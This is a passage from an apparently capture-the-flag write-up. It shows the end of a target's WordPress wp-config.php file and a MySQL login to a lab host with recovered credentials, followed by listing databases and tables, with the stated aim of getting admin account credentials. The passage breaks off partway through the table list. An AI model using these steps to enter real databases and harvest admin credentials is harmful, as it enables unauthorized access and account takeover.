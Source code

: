   ```
   * For developers: WordPress debugging mode.
   *
   * Change this to true to enable the display of notices during development.
   * It is strongly recommended that plugin and theme developers use WP_DEBUG
   * in their development environments.
   *
   * For information on other constants that can be used for debugging,
   * visit the documentation.
   *
   * @link https://wordpress.org/support/article/debugging-in-wordpress/
   */
  define( 'WP_DEBUG', false );
  
  /* That's all, stop editing! Happy publishing. */
  define('WP_HOME', false);
  define('WP_SITEURL', false);
  
  /** Absolute path to the WordPress directory. */
  if ( ! defined( 'ABSPATH' ) ) {
          define( 'ABSPATH', __DIR__ . '/' );
  }
  
  /** Sets up WordPress vars and included files. */
  require_once ABSPATH . 'wp-settings.php';
  ```

- Now let's connect with MySQL and get credentials for admin account.

  ```
  mysql -h 10.10.91.214 -u thedarktangent -p  

  Enter password: 
  Welcome to the MariaDB monitor.  Commands end with ; or \g.
  Your MySQL connection id is 136
  Server version: 5.7.33-0ubuntu0.16.04.1 (Ubuntu)
  
  Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
  
  Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
  
  MySQL [(none)]> show databases;
  +--------------------+
  | Database           |
  +--------------------+
  | information_schema |
  | mysql              |
  | performance_schema |
  | sys                |
  | wordpressdb2       |
  +--------------------+
  5 rows in set (0.267 sec)
  
  MySQL [(none)]> use wordpressdb2
  Reading table information for completion of table and column names
  You can turn off this feature to get a quicker startup with -A
  
  Database changed
  
  MySQL [wordpressdb2]> show tables
      -> ;
  +--------------------------+
  | Tables_in_wordpressdb2   |
  +--------------------------+
  | wptry_commentmeta        |
  ```
